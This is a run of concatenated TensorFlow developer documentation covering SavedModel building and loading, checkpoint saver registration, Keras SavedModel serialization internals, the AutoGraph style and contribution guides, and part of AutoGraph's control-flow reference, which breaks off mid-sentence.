* Atomic writes to the SavedModel location.

### TF1 SavedModel Background
SavedModel manages and builds upon existing TensorFlow primitives such as
`TensorFlow Saver` and `MetaGraphDef`. Specifically, SavedModel wraps a [TensorFlow Saver](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/python/training/saver.py).
The Saver is primarily used to generate the variable checkpoints. SavedModel
will replace the existing [TensorFlow Inference Model Format](https://github.com/tensorflow/tensorflow/tree/r1.15/tensorflow/contrib/session_bundle#tensorflow-inference-model-format)
as the canonical way to export TensorFlow graphs for serving.


### APIs
The APIs for building and loading a SavedModel are described in this section.

#### (TF1-only) Builder
The SavedModel [builder](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/saved_model/builder.py)
is implemented in Python.

The `SavedModelBuilder` class provides functionality to save multiple meta graph
defs, associated variables and assets.

To build a SavedModel, the first meta graph must be saved with variables.
Subsequent meta graphs will simply be saved with their graph definitions. If
assets need to be saved and written or copied to disk, they can be provided
when the meta graph def is added. If multiple meta graph defs are associated
with an asset of the same name, only the first version is retained.

#### (TF1-only) Tags
Each meta graph added to the SavedModel must be annotated with user specified
tags, which reflect the meta graph capabilities or use-cases.
More specifically, these tags typically annotate a meta graph with its
functionality (e.g. serving or training), and possibly hardware specific aspects
such as GPU.
In the SavedModel, the meta graph def whose tag-set exactly matches those
specified in the loader API, will be the one loaded by the loader.
If no meta graph def is found matching the specified tags, an error is returned.
For example, a loader with a requirement to serve on GPU hardware would be able
to load only meta graph annotated with tags='serve,gpu' by specifying this set
of tags in tensorflow::LoadSavedModel(...).


#### Usage
The typical usage of `builder` is as follows:

~~~python
export_dir = ...
...
builder = tf.saved_model.builder.SavedModelBuilder(export_dir)
with tf.Session(graph=tf.Graph()) as sess:
  ...
  builder.add_meta_graph_and_variables(sess,
                                       [tf.saved_model.tag_constants.TRAINING],
                                       signature_def_map=foo_signatures,
                                       assets_collection=foo_assets)
...
with tf.Session(graph=tf.Graph()) as sess:
  ...
  builder.add_meta_graph(["bar-tag", "baz-tag"])
...
builder.save()
~~~

#### (TF1-only) Stripping Default valued attributes
The SavedModelBuilder class allows users to control whether default-valued
attributes must be stripped from the NodeDefs while adding a meta graph to the
SavedModel bundle. Both `SavedModelBuilder.add_meta_graph_and_variables` and
`SavedModelBuilder.add_meta_graph` methods accept a Boolean flag
`strip_default_attrs` that controls this behavior.

If `strip_default_attrs` is `False`, the exported MetaGraphDef will have the
default valued attributes in all it's NodeDef instances. This can break forward
compatibility with a sequence of events such as the following:

* An existing Op (`Foo`) is updated to include a new attribute (`T`) with a
  default (`bool`) at version 101.
* A model producer (such as a Trainer) binary picks up this change
  (version 101) to the OpDef and re-exports an existing model that uses Op `Foo`.
* A model consumer (such as Tensorflow Serving) running an older binary
  (version 100) doesn't have attribute `T` for Op `Foo`, but tries to import
  this model. The model consumer doesn't recognize attribute `T` in a NodeDef
  that uses Op `Foo` and therefore fails to load the model.

By setting `strip_default_attrs` to `True`, the model producers can strip away
any default valued attributes in the NodeDefs. This helps ensure that newly
added attributes with defaults don't cause older model consumers to fail loading
models regenerated with newer training binaries.

TIP: If you care about forward compatibility, then set `strip_default_attrs`
to `True` while using `SavedModelBuilder.add_meta_graph_and_variables` and
`SavedModelBuilder.add_meta_graph`.

### Loader
The SavedModel loader is implemented in C++ and Python.

#### (TF1-only) Python
The Python version of the SavedModel [loader](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/saved_model/loader.py)
provides load and restore capability for a SavedModel. The `load` operation
requires the session in which to restore the graph definition and variables, the
tags used to identify the meta graph def to load and the location of the
SavedModel. Upon a load, the subset of variables and assets supplied as part of
the specific meta graph def, will be restored into the supplied session.

~~~python
export_dir = ...
...
with tf.Session(graph=tf.Graph()) as sess:
  tf.saved_model.loader.load(sess, [tag_constants.TRAINING], export_dir)
  ...
~~~

#### C++
The C++ version of the SavedModel [loader](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/saved_model/loader.h)
provides an API to load a SavedModel from a path, while allowing
`SessionOptions` and `RunOptions`. Similar to the Python version, the C++
version requires the tags associated with the graph to be loaded, to be
specified. The loaded version of SavedModel is referred to as `SavedModelBundle`
and contains the meta graph def and the session within which it is loaded.

~~~c++
const string export_dir = ...
SavedModelBundle bundle;
...
LoadSavedModel(session_options, run_options, export_dir, {kSavedModelTagTrain},
               &bundle);
~~~

### Constants
SavedModel offers the flexibility to build and load TensorFlow graphs for a
variety of use-cases. For the set of most common expected use-cases,
SavedModel's APIs provide a set of constants in Python and C++ that are easy to
reuse and share across tools consistently.

#### (TF1-specific) Tag constants
Sets of tags can be used to uniquely identify a `MetaGraphDef` saved in a
SavedModel. A subset of commonly used tags is specified in:

* [Python](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/saved_model/tag_constants.py)
* [C++](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/saved_model/tag_constants.h).

#### (TF1-specific) Signature constants
SignatureDefs are used to define the signature of a computation supported in a
TensorFlow graph. Commonly used input keys, output keys and method names are
defined in:

* [Python](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/saved_model/signature_constants.py)
* [C++](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/saved_model/signature_constants.h).
# Registrations

To configure SaveModel or checkpointing beyond the basic saving and loading
steps [documentation TBD], registration is required.

Currently, only TensorFlow-internal
registrations are allowed, and must be added to the allowlist.

* `tensorflow.python.saved_model.registration.register_tf_serializable`
  * Allowlist: tf_serializable_allowlist.txt
*  `tensorflow.python.saved_model.registration.register_tf_checkpoint_saver`
  * Allowlist: tf_checkpoint_saver_allowlist.txt

[TOC]

## SavedModel serializable registration

Custom objects must be registered in order to get the correct deserialization
method when loading. The registered name of the class is saved to the proto.

Keras already has a similar mechanism for registering serializables:
[`tf.keras.utils.register_keras_serializable(package, name)`](https://www.tensorflow.org/api_docs/python/tf/keras/utils/register_keras_serializable).
This has been imported to core TensorFlow:

```python
registration.register_serializable(package, name)
registration.register_tf_serializable(name)  # If TensorFlow-internal.
```

*   package: The package that this class belongs to.
*   name: The name of this class. The registered name that is saved in the proto
    is "{package}.{name}" (for TensorFlow internal registration, the package
    name is `tf`)

## Checkpoint saver registration

If `Trackables` share state or require complicated coordination between multiple
`Trackables` (e.g. `DTensor`), then users may register a save and restore
functions for these objects.

```
tf.saved_model.register_checkpoint_saver(
    predicate, save_fn=None, restore_fn=None):
```

*   `predicate`: A function that returns `True` if a `Trackable` object should
    be saved using the registered `save_fn` or `restore_fn`.
*   `save_fn`: A python function or `tf.function` or `None`. If `None`, run the
    default saving process which calls `Trackable._serialize_to_tensors`.
*   `restore_fn`: A `tf.function` or `None`. If `None`, run the default
    restoring process which calls `Trackable._restore_from_tensors`.

**`save_fn` details**

```
@tf.function  # optional decorator
def save_fn(trackables, file_prefix): -> List[shard filenames]
```

*   `trackables`: A dictionary of `{object_prefix: Trackable}`. The
    object_prefix can be used as the object names, and uniquely identify each
    `Trackable`. `trackables` is the filtered set of trackables that pass the
    predicate.
*   `file_prefix`: A string or string tensor of the checkpoint prefix.
*   `shard filenames`: A list of filenames written using `io_ops.save_v2`, which
    will be merged into the checkpoint data files. These should be prefixed by
    `file_prefix`.

This function can be a python function, in which case shard filenames can be an
empty list (if the values are written without the `SaveV2` op).

If this function is a `tf.function`, then the shards must be written using the
SaveV2 op. This guarantees the checkpoint format is compatible with existing
checkpoint readers and managers.

**`restore_fn` details**

```
@tf.function  # required decorator
def restore_fn(trackables, file_prefix): -> None
```

A `tf.function` with the spec:

*   `trackables`: A dictionary of `{object_prefix: Trackable}`. The
    `object_prefix` can be used as the object name, and uniquely identifies each
    Trackable. The Trackable objects are the filtered results of the registered
    predicate.
*   `file_prefix`: A string or string tensor of the checkpoint prefix.

**Why are restore functions required to be a `tf.function`?** The short answer
is, the SavedModel format must maintain the invariant that SavedModel packages
can be used for inference on any platform and language. SavedModel inference
needs to be able to restore checkpointed values, so the restore function must be
directly encoded into the SavedModel in the Graph. We also have security
measures over FunctionDef and GraphDef, so users can check that the SavedModel
will not run arbitrary code (a feature of `saved_model_cli`).

## Example

Below shows a `Stack` module that contains multiple `Parts` (a subclass of
`tf.Variable`). When a `Stack` is saved to a checkpoint, the `Parts` are stacked
together and a single entry in the checkpoint is created. The checkpoint value
is restored to all of the `Parts` in the `Stack`.

```
@registration.register_serializable()
class Part(resource_variable_ops.ResourceVariable):

  def __init__(self, value):
    self._init_from_args(value)

  @classmethod
  def _deserialize_from_proto(cls, **kwargs):
    return cls([0, 0])


@registration.register_serializable()
class Stack(tracking.AutoTrackable):

  def __init__(self, parts=None):
    self.parts = parts

  @def_function.function(input_signature=[])
  def value(self):
    return array_ops.stack(self.parts)


def get_tensor_slices(trackables):
  tensor_names = []
  shapes_and_slices = []
  tensors = []
  restored_trackables = []
  for obj_prefix, obj in trackables.items():
    if isinstance(obj, Part):
      continue  # only save stacks
    tensor_names.append(obj_prefix + "/value")
    shapes_and_slices.append("")
    x = obj.value()
    with ops.device("/device:CPU:0"):
      tensors.append(array_ops.identity(x))
    restored_trackables.append(obj)

  return tensor_names, shapes_and_slices, tensors, restored_trackables


def save_stacks_and_parts(trackables, file_prefix):
  """Save stack and part objects to a checkpoint shard."""
  tensor_names, shapes_and_slices, tensors, _ = get_tensor_slices(trackables)
  io_ops.save_v2(file_prefix, tensor_names, shapes_and_slices, tensors)
  return file_prefix


def restore_stacks_and_parts(trackables, merged_prefix):
  tensor_names, shapes_and_slices, tensors, restored_trackables = (
      get_tensor_slices(trackables))
  dtypes = [t.dtype for t in tensors]
  restored_tensors = io_ops.restore_v2(merged_prefix, tensor_names,
                                       shapes_and_slices, dtypes)
  for trackable, restored_tensor in zip(restored_trackables, restored_tensors):
    expected_shape = trackable.value().get_shape()
    restored_tensor = array_ops.reshape(restored_tensor, expected_shape)
    parts = array_ops.unstack(restored_tensor)
    for part, restored_part in zip(trackable.parts, parts):
      part.assign(restored_part)


registration.register_checkpoint_saver(
    name="stacks",
    predicate=lambda x: isinstance(x, (Stack, Part)),
    save_fn=save_stacks_and_parts,
    restore_fn=restore_stacks_and_parts)
```
## STOP!

This folder contains the legacy Keras code which is stale and about to be
deleted. The current Keras code lives in
[github/keras-team/keras](https://github.com/keras-team/keras).

Please do not use the code from this folder.
# Keras with Distribution Strategy Tests

This directory contains unit tests that combine Keras library with
[Distribution Training](https://www.tensorflow.org/guide/distributed_training).
Tests that use a custom training loop instead of Keras compile/fit should be
placed under python/distribute directory instead.
# Keras SavedModel

For questions, feedback, and feature requests please file a bug/contact kathywu@

## TensorFlow Core SavedModel implementation

In TensorFlow 2.0, all saving and loading implementations revolve around the
object graph generated from a root trackable object, and all trackable objects
connected to it through attributes. Program building blocks such as variables,
assets, and tables, and high level objects like Optimizers and Layers all
subclass the trackable class. Other objects like TensorFlow functions and
concrete functions are also saved as nodes in the object graph. When loading a
SavedModel, the object graph is used to recreate the structure of the original
object.

Please see the links below for more details:

- [Saved Model Guide](https://www.tensorflow.org/guide/saved_model)
- [Checkpoint Guide](https://www.tensorflow.org/guide/checkpoint)

## Keras SavedModel implementation

### Overview

Keras object serialization is built on top of the core serialization.

All attributes that impact model execution or inspection are saved to the
SavedModel to allow the model to be recreated. These attributes are divided into
three categories:

1. python properties (e.g., layer name, layer config)
2. objects (e.g. data structures like list of variables or layers)
3. functions (e.g. call function, loss functions)

Trackable objects and TensorFlow functions are represented as nodes in the
trackable object graph, and each node in the graph stores information about
their python properties.

Since many attributes in Keras Layers/Models are not Trackable objects or
tf.functions, these attributes are wrapped as trackable objects/tf.functions at
serialization time. For example, `layer.variables` is implemented as a python
property that appends the lists of trainable/nontrainable variables. During
serialization, a new Trackable List object is created and saved to the
`variables` attribute. Another example is the call function. Most models do not
decorate their call function with `tf.function`, since Keras will take care of
the graph/function management. When the model is saved, the call function is
wrapped in a `tf.function` and added to the `__call__` attribute.


### `keras_api` attribute

Many attributes are only relevant for revivability. Instead of attaching these
directly to the exported object, they are saved to a new `keras_api` trackable
object that is then attached to the exported object. This avoids cluttering the
exported object with objects/functions that are only used by the Keras library.

For example, `__call__` and `call_and_return_conditional_losses` are functions
saved for all models. The `__call__` function is attached directly to the
exported object, while `call_and_return_conditional_losses` is attached to a
separate object. Say a user saves the model, then loads the SavedModel using the
core loader (tf.saved_model.load which does not rely on the Keras library to
revive the model).

The loaded object will have a structure that looks like:

```
  loaded object -- __call__
                -- keras_api -- __call__
                             -- call_and_return_conditional_losses
```

The two call functions may be accessed through:

  - `loaded.__call__` or `loaded.keras_api.__call__`
  - `loaded.keras_api.call_and_return_conditional_losses`.


### Saving details

Keras Layers use a helper abstract class and an attribute validator class to
define and standardize the serialization implementation:

- [`SerializationImpl`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/saved_model/base_serialization.py):
Ensures that layer python properties are saved as a serialized JSON string in
the metadata field, and gathers all attributes to save with the Keras object.
Please see the docstrings in each of the abstract methods/properties to see what
is required.
- [`SerializedAttributes`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/saved_model/serialized_attributes.py?):
Tracks all of the attributes that must be saved with a Keras object. Objects and
functions may be specified to be "keras_only", meaning that they will only
appear in the `keras_api` attribute.

The base `Layer` serialization is defined in
[`layer_serialization.py`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/saved_model/layer_serialization.py).
See `LayerAttributes` and `LayerSerializationImpl`.

**Adding a new attribute to base Layer SavedModel**

1. Add a new attributes to `LayerAttributes`.
2. Modify `LayerSerializationImpl` internal methods:

   a. If adding a python property, add the key-value item to the dictionary
   returned by `_python_properties_internal`

   b.If adding a new object/function, modify the dictionary returned by
   `_get_serialized_attributes_internal`.


**Adding custom serialization for a Layer subclass.**

1. Create a new attribute validator by copying `LayerAttributes`, and add any
new attributes to serialize.
2. Subclass `LayerSerializationImpl`
3. Implement `_python_properties_internal` and/or
`_get_serialized_attributes_internal` to return the new attributes.

Unless you are modifying the loader (see section below on loading), please keep
the `object_identifier` the same.

These instructions also carry over for modifying
[Model](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/saved_model/model_serialization.py)
and
[Network](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/saving/saved_model/network_serialization.py)
serialization.


### Loading details

TODO(kathywu): Will write this section when the loading code is moved into
\*_serialization.py files.

# AutoGraph Style Guide

This page contains style decisions that developers should follow when
contributing code to AutoGraph.

## TensorFlow Style

Follow the [TensorFlow style
guide](https://www.tensorflow.org/community/contribute/code_style), the [documentation
guide](https://www.tensorflow.org/community/contribute/docs) and the
[Google Python style guide](https://google.github.io/styleguide/pyguide.html).

Naming conventions:

1.  The name is TensorFlow, not Tensorflow.
2.  The name is AutoGraph, not Autograph.

## AutoGraph Style

Below are AutoGraph-specific conventions. In the event of conflict,
it supercedes all previous conventions.

1. __Types in docstrings.__ Use [PEP 484][https://www.python.org/dev/peps/pep-0484/]
    notation to describe the type for args, return values and attributes.

    Example:

    ```
    Args:
      foo: Dict[str, List[int]], a dictionary of sorts
    ```

2.  __Citations in Docstrings.__ Write a `#### References` subsection at the
    bottom of any docstring with citations. Use ICLR’s bibliography style to
    write references; for example, order entries by the first author's last
    name. Add a link to the paper if the publication is open source (ideally,
    arXiv).

    Write in-paragraph citations in general, e.g., [(Tran and Blei, 2018)][1].
    Write in-text citations when the citation is a noun, e.g., [Tran and Blei
    (2018)][1]. Write citations with more than two authors using et al., e.g.,
    [(Tran et al., 2018)][1]. Separate multiple citations with semicolon, e.g.,
    ([Tran and Blei, 2018][1]; [Gelman and Rubin, 1992][2]).

    Examples:

    ```none
    #### References

    # technical report
    [1]: Tony Finch. Incremental calculation of weighted mean and variance.
         _Technical Report_, 2009.
         http://people.ds.cam.ac.uk/fanf2/hermes/doc/antiforgery/stats.pdf

    # journal
    [2]: Andrew Gelman and Donald B. Rubin. Inference from Iterative Simulation
         Using Multiple Sequences. _Statistical Science_, 7(4):457-472, 1992.

    # arXiv preprint
    # use "et al." for papers with too many authors to maintain
    [3]: Aaron van den Oord et al. Parallel WaveNet: Fast High-Fidelity Speech
         Synthesis. _arXiv preprint arXiv:1711.10433_, 2017.
         https://arxiv.org/abs/1711.10433

    # conference
    [4]: Yeming Wen, Paul Vicol, Jimmy Ba, Dustin Tran, and Roger Grosse.
         Flipout: Efficient Pseudo-Independent Weight Perturbations on
         Mini-Batches. In _International Conference on Learning
         Representations_, 2018.
         https://arxiv.org/abs/1803.04386
    ```

3.  Avoid LaTeX in docstrings.

    *   It is not rendered in many (if not most) editors and can be hard to read
        for both LaTeX experts and non-experts.

4. Write docstring and comment math using ASCII friendly notation; python using
    operators. E.g., `x**2` better than `x^2`, `x[i, j]` better than `x_{i,j}`,
    `sum{ f(x[i]) : i=1...n }` better than `\sum_{i=1}^n f(x_i)` `int{sin(x) dx:
    x in [0, 2 pi]}` better than `\int_0^{2\pi} sin(x) dx`.

    *   The more we stick to python style, the more someone can
        copy/paste/execute.
    *   Python style is usually easier to read as ASCII.
# How to contribute

We'd love to have your patches and contributions! Here are some guidelines. In general, we follow the [TensorFlow contributing guidelines](../../CONTRIBUTING.md), but have some [AutoGraph-specific style guidelines](STYLE_GUIDE.md). More details below.

### Note to active contributors

In preparation for TF 2.0, we moved the code base of AutoGraph from
`tensorflow/contrib/autograph` to `tensorflow/python/autograph`. The move
does not impact functionality, and AutoGraph will remain accessible under
`tensorflow.contrib.autograph` until `tensorflow.contrib` is retired.

## TensorFlow Code of Conduct
Please review and follow the [TensorFlow Code of Conduct](../../CODE_OF_CONDUCT.md).

## Contributor License Agreement

Contributions to this project must be accompanied by a Contributor License
Agreement. You (or your employer) retain the copyright to your contribution;
this simply gives us permission to use and redistribute your contributions as
part of the project. Head over to <https://cla.developers.google.com/> to see
your current agreements on file or to sign a new one.

You generally only need to submit a CLA once, so if you've already submitted one
(even if it was for a different project), you probably don't need to do it
again.

## Code reviews

All submissions, including submissions by project members, require review. We
use GitHub pull requests for this purpose. Consult [GitHub
Help](https://help.github.com/articles/about-pull-requests/) for more
information on using pull requests.

After a pull request is approved, we merge it. Note our merging process differs
from GitHub in that we pull and submit the change into an internal version
control system. This system automatically pushes a git commit to the GitHub
repository (with credit to the original author) and closes the pull request.

## Style

See the [AutoGraph style guide](STYLE_GUIDE.md).

## Unit tests

Please include unit tests when contributing new features ([example here](converters/continue_statements_test.py)), as they help to a) prove that your code works correctly, and b) guard against future breaking
changes to lower the maintenance cost.
It's also helpful to check that any
changes you propose do not break existing unit tests. You can run tests using the command,

```shell
bazel test --config=opt --copt=-O3 --copt=-march=native \
  //tensorflow/contrib/autograph/...
```

from the root of the `tensorflow` repository. For more details see the [main TensorFlow Contributing File](../../CONTRIBUTING.md)

## Developer info

### Module structure

The graph below describes the dependencies between AutoGraph modules (not to be mistaken with the directory structure for these modules, which is flat):



`autograph` is the sole user-visible module.

A short description of the modules:

 * `autograph`: the main module imported by the user and by the generated code; only contains declarations
 * `impl`: high level code and the implementation of the api frontend
 * `core`: base classes for the AutoGraph source code transformation logic; see in particular `converter.py`
 * `lang`: special user-visible functions that serve as extensions to the Python language
 * `converters`: collection of source code transformation modules specialized for particular AutoGraph features
 * `operators`: collection of operators that AutoGraph overloads; these correspond to Python operators as well as Python syntactic structures, like control flow

There are two additional modules, `pyct` and `utils`. These are independent of AutoGraph:

 * `pyct`: a general purpose Python source code transformation library
 * `utils`: the kitchen sync; deprecated

Note: we have a long term plan to factor out an implementation of `impl` and `converters` that is independent of autograph, into a general purpose Python operator overloading library.
# AutoGraph reference

[Index](index.md)

## Control flow

AutoGraph rewrites all control flow statements with specialized AutoGraph
function calls. These function calls are capable of executing the corresponding
control flow statement using Python semantics for effects outside the Python
interpreter itself (see the [Introduction](intro.md)).

### Dispatch rules

Key Point: Only statements that are conditioned on, or iterate over, a
TensorFlow object such as `tf.Tensor`, are converted into TensorFlow ops.

As described in the [Introduction](intro.md), AutoGraph aims to preserve the
semantics of valid Python code. If a control flow statement runs in graph
execution without raising an error, then AutoGraph will also execute it as
normal Python control flow. Statements which would normally raise an error, for
example an `if` statement using a `bool` `Tensor` as condition, are converted to
TensorFlow control flow ops.

#### Analogy with compile-time constants and code optimization

From the perspective of a TensorFlow graph, non-Tensor values, for example an
integer or a NumPy array, are _constants_: they do not change value while the
graph executes.

For example, in the graph below, the condition is always `True` (it is
invariant):

```
x = 1
y = tf.cond(x > 0, lambda: 3 * x, lambda 5 * x)
```

That is equivalent to the code below:

```
x = 1
y = 3 * x
```

In the example above, we've optimized away the conditional on a constant
condition. The AutoGraph dispatch rules have the same effect: anything that is
not a TensorFlow object is a compile-time constant for TensorFlow, and can be
optimized away. For this reason, you can usually mix Python and TensorFlow
computation and it will transparently have the expected result even
when only some computations are executed in the graph.

<!-- TODO(mdan): This is actually a limitation (a very subtle one) -->
Caution: The assumption of invariant code made above is not true if the
TensorFlow graph had callbacks into the Python code. If you modify data
from within a `tf.py_function`, then the code outside a `tf.py_function`
will have unpredictable behavior if it depends on the same data.

For example, the `tf.cond` that runs as part of the `if` statement below will
miss the update made by `f`:

```
n = [10]
def f():
  n[0] = 20
  return 0
tf.py_function(f, (), (tf.int32,))
if tf.equal(n[0], 10):
  tf.print('n is 10')
```

```
n is 10
```

### Compound symbols

AutoGraph usually handles basic symbols:

```
if a < 0:
  a = -a
```

```
a = tf.cond(a < 0, lambda: -a, lambda: a)
```

But it can also handle complex symbols in many cases. For example, if we treat
`a.b` as a symbol in the code below, then we can use it as if it were a basic
symbol name:

```
if a.b < 0
  a.b = -a.b
```

```
a.b = tf.cond(a.b < 0, lambda: -a.b, lambda: a.b)
```

This is useful in methods, which can operate on properties of `self`, as well as
working directly on more complex object structures or collections.

Caution: There are certain [limitations](limitations.md) around using Python
collections and object mutation. When in doubt, place the values you work
with into local variables and operate on those.

### Effects of the tracing process

#### All Python code paths are executed during tracing

When constructing a graph, TensorFlow _traces_ the code. The tracing of control
flow requires visiting _every possible code path_ (usually once).

Note: In rare cases, the runtime may decide to trace some code paths several
times. For example, the condition of a `while` statement may be executed twice,
first with a temporary graph, to determine whether it evaluates to a
`tf.Tensor`, then if it is a `tf.Tensor`, it's executed a second time in the
proper graph.

In other words, tracing executes both branches of an if statement. Similarly,
the body of loops is executed once (even if the loop would otherwise not iterate
at all).

This explains why inserting `print` statements in an `if` statement produces
this output:

```
print('before if')
if tf.constant(True):
  print('true branch')
else:
  print('false branch')
print('after if')
```

```
before if
true branch
false branch
after if
```

Note: Control flow that is not executed as a TensorFlow graph is not traced. Its
body will execute as expected.

Example of code that runs as regular Python code:

```
print('before if')
if True:  # Condition not a Tensor, running normally
  print('true branch')
else:
  print('false branch')
print('after if')
```

```
before if
true branch
after if
```

#### Python values modified in TensorFlow control flow become Tensors

If a symbol is modified in a TensorFlow control flow statement, then it becomes
a `tf.Tensor`, even if it started off as a Python primitive value.

For example, the conditional below will run as a `tf.cond` (its condition is a
`tf.Tensor`), which in turn will cause `i` to become a `tf.Tensor`.

```
i = 0
if tf.greater(i, 0):
  i = 1
# i is now a Tensor
```

### `if` statements

`if` statements whose condition is a `tf.Tensor` are executed as TensorFlow
conditionals by converting them to `tf.cond`:

```
if tf.random.uniform(()) > 0.5:
  x = 1
else:
  x = 2
```

`if` statements whose condition is not a `tf.Tensor` are executed as normal
Python:

```
if np.random.uniform() > 0.5:
  x = 1
else:
  x = 2
```

`if` statements executed as TensorFlow conditionals are subject to restrictions
(see [limitations](limitations.md)). All symbols affected by the statement and
used thereafter must be:

 * of a data type understood by TensorFlow
 * defined in both branches
 * of consistent dtypes in both branches, for TensorFlow entities
 * of consistent structure in both branches, for static collections (such as
   lists or tuples)

### `while` statements

`while` statements whose condition is a `tf.Tensor` are executed as TensorFlow
loops by converting them to `tf.while_loop`:

```
x = 0
while tf.random.uniform(()) > 0.5:
  x = x + 1
```

`while` statements whose condition is not a `tf.Tensor` are executed as normal
Python:

```
x = 0
while np.random.uniform() > 0.5:
  x = x + 1
```

`while` statements executed as TensorFlow loops are subject to restrictions
(see [limitations](limitations.md)). All symbols affected by the statement and
used thereafter must be:

 * of a data type understood by TensorFlow
 * defined before the loop
 * of consistent dtype at the beginning and the end of the loop,
   for TensorFlow entities
 * either of consistent shape at the beginning and the end of the loop,
   for TensorFlow entities, or declared in `shape_invariants`
 * of consistent structure  at the beginning and the end of the loop, for
   static collections (such as lists or tuples)

Caution: A `while` loop whose condition is a Python scalar will execute as
normal Python. If you intended to run the loop as a TensorFlow loop, the loop
will replicate its body in the graph (it is unrolled). To avoid that, make sure
its condition is converted to a `tf.Tensor`, using for instance `tf.constant`.

For example, the following loop is unrolled, even though the list contains
`tf.Tensor` values, because the type of `l` is a Python `list`:

```
l = [tf.constant(1), tf.constant(2), tf.constant(3)]
for i in l:
  tf.print(i)  # This is unrolled - three `tf.print`s are built in the graph. 
```

If you wish for the loop to run as a TensorFlow loop, stack the loop:

```
l = [tf.constant(1), tf.constant(2), tf.constant(3)]
for i in tf.stack(l):
  tf.print(i)  # This runs as a TensorFlow loop.
```

<!-- TODO(mdan): List this under limitations -->

Caution: A loop in which the type of the condition changes across iterations, in
a way that would influence the way the loop is executed, is not allowed in
AutoGraph.

For example, the loop below will generate an error, because after the first
iteration, `i` becomes a tf.Tensor:

```
i = 0
while i < 10:  # `i < 10` is a Python bool - run as normal while loop
  i = tf.constant(1)  # Error -- `i < 10` would now be a `tf.Tensor`
```

### `for` statements

`for` statements that iterate over a `tf.Tensor` are executed as TensorFlow
loops by converting them to a `tf.while_loop` which iterates over the first
dimension (equivalent to NumPy):

```
for i in tf.constant(((1, 2), (3, 4))):
  tf.print('iteration:', i)
```

```
iteration: [1, 2]
iteration: [3, 4]
```

Note: If possible, AutoGraph will also set the `maximum_iteration` parameter
of the `tf.while_loop`.

`for` statements that iterate over the output of a `tf.range` are executed as
TensorFlow loops by converting them to a `tf.while_loop` which uses the
arguments passed to the `tf.range`:

```
for i in tf.range(3):
  tf.print('iteration:', i)
```

`for` statements that iterate over a `tf.data.Dataset` and which do not contain
`break` or `return` statements are executed as TensorFlow loops by converting
them to `tf.data.Dataset.reduce` ops:

```
for i in tf.data.Dataset.range(3):
  tf.print('iteration:', i)
```

`for` statements that iterate over a _distributed dataset_ and which do not
contain `break` or `return` statements are executed as TensorFlow loops by
converting them to the dataset's `reduce` ops:

```
for i in tf.distribute.OneDeviceStrategy('cpu').experimental_distribute_dataset(
    tf.data.Dataset.range(3)):
  tf.print('iteration:', i)
```

`for` statements that iterate over a `tf.data.Dataset` and which contain
`break` or `return` statements are executed as TensorFlow loops by converting
them to a combination of `tf.data.Dataset.scan`, `tf.data.Dataset.take_while`
and `tf.data.Dataset.reduce` ops:

```
for i in tf.data.Dataset.range(3):
  tf.print('iteration:', i)
  break
```

```
iteration: 1
```

`for` statements that iterate over a `tf.data.Dataset` _iterator_ are executed
as TensorFlow loops by converting them to a combination of `tf.while_loop`,
and `tf.cond` ops:

```
for i in iter(tf.data.Dataset.range(3)):
  tf.print('iteration:', i)
```

`for` statements that iterate over a type different from any of the above are
executed as normal Python:

```
for i in [1, 2, 3]:
  print('iteration:', i)
```

Caution: A `for` loop over a `list` or `tuple` of `tf.Tensor` is considered to
iterate over a Python `list` (or respectively `tuple`), therefore will be
executed as normal Python. If you intended to run it as a TensorFlow loop,
use `tf.stack` or `tf.concat`.

Caution: A `for` loop over a Python `range` will execute as normal Python.
If you intended to run it as a TensorFlow loop, use `tf.range`.

Note: AutoGraph may output a warning when it believes that you are unrolling
a loop inefficiently. However, the warning thresholds are very conservative.
The warning is only printed when
[__debug__](https://docs.python.org/3/library/constants.html#__debug__) is
`True`.

Note: If `__debug__` is `True`, AutoGraph limits the number of iterations in
normal Python loops to prevent infinite loops and raise an error if the limits
are exceeded. However, the iteration limits are very large and may take a while
to trigger an error.

### `break` statements

Code blocks in which `break` statements are used are rewritten with equivalent
code that uses extra control booleans and conditionals. The control booleans are
used directly in `while` loops. In the case of `for` loops, the AutoGraph
corresponding operator accepts an `extra_test` argument which is similar to
the conditional of a while loop, and which contains the control boolean.

For example, the `while` loop below is rewritten as (showing the output of the
`break` transformation only):

```
while i < 10:
  if i > 3:
    break
  i += 1
```

```
break_ = False
while i < 10 and not break_:
  if i > 3:
    break_ = True
    continue  # The continue statement is also rewritten in a subsequent pass
  i += 1
```

Another example shows how the control boolean is used in the overload of a `for`
loop (showing portions of the final output):

```
for i in range(10):
  if i > 3:
    break
```

```
break_ = False
...
def extra_test(break_):
  return ag__.not_(break_)
# break_ becomes a loop variable.
break_, = ag__.for_stmt(range(10), extra_test, ..., (break_,))
```

Mixing Tensor-dependent `break` and Python-dependent loops is disallowed:

```
@tf.function
def buggy_while_py_true_tf_break(x):
  while True:   # python conditional
    if tf.equal(x, 0): # tensor break
      break
    x -= 1
  return x

# Raises OperatorNotAllowedInGraphError: using a `tf.Tensor` as a Python `bool` is not allowed
# buggy_while_true_tf_break(5)
```

### `continue` statements

Code blocks in which `continue` statements are used are rewritten with
equivalent code that uses extra control booleans and conditionals, similar to
how `break` is handled.

For example, the `for` loop below is rewritten as (showing the output of the
`continue` transformation only):

```
for i in range(10):
  if i > 3:
    continue
```

```
for i in range(10):
  continue_ = False
  if i > 3:
    continue_ = True
  if not continue_:
    i += 1
```

Notice that unlike `break`, `continue` statements are local to the loop and do
not influence the number of iterations.

### `return` statements

`return` statements are also rewritten using control symbols, in a manner
similar to how `break` is converted. In the case of `return` statements, an
additional symbol keeps track of the return value.

Depending on the structure of the code, the return value might be undefined
in parts of the code (for example on code paths in which no return statement
has executed). AutoGraph keeps track of this by using a special value.
This special value is converted to `None` (the default return value) upon
exiting the function.

Caution: TensorFlow control flow doe not support undefined values, and an
